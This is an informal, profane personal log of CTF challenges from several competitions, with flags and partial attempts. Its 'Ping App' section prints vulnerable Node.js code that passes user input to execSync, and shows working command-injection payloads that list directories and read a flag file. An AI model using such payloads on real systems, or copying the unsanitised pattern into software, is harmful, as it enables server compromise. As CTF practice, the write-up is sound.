 # CTF_commentary
Fucking commentary on CTFs I play. I'm so full of shit.

## ACS IXIA CTF 2021
*https://acs-ixia-ctf.security.cs.pub.ro/*

What a weird fucking name.
## Misc: of course I will start with Misc cuz I like FUN
### Warm-up 2021
Read the rules. *wtf I never fucking read the rules, it's Ramadan for god's sake*. 

So in the rules: they give `ACS_IXIA_CTF{Some_random_string}` as the format. I submitted it, *nope*.

So Nothing, then I read that you need to change your role on Discord, and as soon as I did, `ACS_IXIA_CTF{Welcome_to_the_IXIA_2021_CTF_Have_Fun!}` got this on Discord. YAY!
### Beware The Hackerman
Hackerman saw this Netflix documentary about spies dead dropping encoded messages in plain sight.

He gave it a try.

With a zip file attached. the gif looks like a bald guy breaking a computer?? *the fuck*. Found this tool *https://ezgif.com/split*, tried converting it to video, for fun, otherwise, I *REALLY* dk what I'm doing.

So the gif actually contains 3 pictures; I couldnt even split it into frames using that useless tool. *kill me*. 
### Git Tutorial
*https://github.com/lizababu/git-is-love* given this, find the flag?

So many *fucking* files. So I did a little `git log -p` on the repo. Holy *fuck*, fucking adding character by character. *KILL ME*. Saved the logs in a logs file. 

## Web (I wanna see all the challenges)
### Fast Cookie
The website returns {"detail":"Not Found"} and 404. No cookies whatsoever. I tried *dirsearch*.

Found `http://141.85.224.117:8001/docs` 

so it contains some kind of docs for the api, after playing around with the requests, found that a `{"cookie":"_IXIA_"}` appears when requesting urls twice

So, *http://141.85.224.117:8001/cookie2* gives `{"cookie":"_IXIA_"}`

*http://141.85.224.117:8001/cookie1*, `{"cookie":"ACS"}`

*http://141.85.224.117:8001/cookie3*, `{"cookie":"CTF{"}`

*http://141.85.224.117:8001/cookie4*, `{"cookie":"User_"}`

*http://141.85.224.117:8001/cookie5*, `{"cookie":"I_am_"}`

*http://141.85.224.117:8001/cookie6*, `{"cookie":"your_cookie}"}`

*TADA*, flag is ACS_IXIA_CTF{User_I_am_your_cookie}

## Ping App, but very secure
Previous pinging apps were pretty unsafe (risky, ikr), but we fixed all of issues. Check it out: http://141.85.224.118:61180/

The web app gives a field for an IP to ping, and the response
```
PING 141.85.224.118 (141.85.224.118) 56(84) bytes of data.
64 bytes from 141.85.224.118: icmp_seq=1 ttl=62 time=1.56 ms

--- 141.85.224.118 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.560/1.560/1.560/0.000 ms
```
using *dirsearch* again, since that's all I know in life, `[15:01:48] 200 -  757B  - /backup.zip`, noice, found an index,js inside
```
function validate_ip (ip) {
	var r = /^(\d{1,3})\.(\d{1,3})\.(\S{1,24})\.(\d{1,3})$/gmi;
	return r.test(ip);
}

app.post("/", function (req, res) {
	var ip = req.body.ip;

	if (!ip || !validate_ip(ip))
		return res.status(401).send('Invalid IP address');

	var output = c.execSync("ping -c 1 " + ip).toString();

	res.send('<pre>' + output + '</pre>');
})
```
*the fuck*, I don't wanna read that. I wanna try *command injection*, cuz that all I know in life.

So I need to inject the payload in the ip address, the regular expression is `/^(\d{1,3})\.(\d{1,3})\.(\S{1,24})\.(\d{1,3})$/gmi`, so I can put the payload in `(\S{1,24})` here, /gmi are flags I guess, *fuck js*

tried  `10.10.;ls;.10` nope.

so, `8.8.||ls||.8.8` runs ls.
```
backup.zip
ecosystem.config.js
index.js
node_modules
package-lock.json
package.json
```
`8.8.||ls${IFS}-al||.8.8`, where *the fuck* is the flag.

but, `8.8.||ls${IFS}$HOME||.8.8` shows a flag file. the HOME is /home/ctf, `8.8.||nl${IFS}$HOME/flag||.8.8`, cat didnt *fucking* work. A friend suggested **nl** instead, 
`     1	ACS_IXIA_CTF{p1ng_r3g3x_s71ll_n07_s4f3}`

### Node Validation
*ugh, node*

the page had a few fields, the hint is an *eval()* in nodejs input validation.. *the fuck*

`/^Animal SizeAnimal color\.weight$/i`

`/^abc$/i` from a, b, c input.

Everything is *fucking* escaped, where is the eval() function for *fuck's* sake.

### Reverse: Santas Elf
Give proper input to get control. Connect to 141.85.224.118:31337.





## Peas in a Pod
The flag is found at `141.85.224.119`.
You can log in as `ashley` with password `student`.

went to `http://141.85.224.119/login.php`, loggeed in as ashley, didnt even ask for a password, *the fuck*

went to `http://141.85.224.119/index.php/login`, oh *wtf* this is a crypto challenge? I'm out
## Step by step
Write what you want to get what you need. Get the flag from 141.85.224.109:31339.
Hint! The flag is located at the path: /home/ctf/flag

wtf the ip returns **ERR_INVALID_HTTP_RESPONSE**, *the fuck is this*. 

but it is *pingable*, if thats even a word.
```
C:\Users\othmane\Desktop\dirsearch> ping 141.85.224.109     

Pinging 141.85.224.109 with 32 bytes of data:
Reply from 141.85.224.109: bytes=32 time=123ms TTL=43
Reply from 141.85.224.109: bytes=32 time=123ms TTL=43

Ping statistics for 141.85.224.109:
    Packets: Sent = 2, Received = 2, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 123ms, Maximum = 123ms, Average = 123ms
```
*kill me*, let's try *nmap*. weird output on that weird *fucking* port.

Because this isn't a Web challenge, I'm guessing no web shit involved.

## Friendly CTF by Cyber Trace
*https://ctf.cyber-trace.tn/*

This shit started already, *fucking hell*.

### Sanity Check
Here is your First flag: CyberTrace{Say_Welc0me_T0_our_BOT_inept}

*noice*

### Cyber-Trace Social Media
`CyberTrace{c0n6r475_y0u_m4d3_17}`, noice

### Web: F12
`<!--CyberTrace{always_1nsp3ct}-->` tada

### Misc: Cyber-Trace Ineptitude
a corrupted JPG file I guess, using *https://online.officerecovery.com/fr/pixrecovery/*, got a new jpg that's *fucking* blurry as *fuck*.

### Reverse: DisAsm
a `main.asm` submitted, 

## BambiCTF: fucking bambi
*https://bambi.enoflag.de/*

I don't even know what the fuck this is, sounds cute. Some Attack/Defense CTF for Beginners.
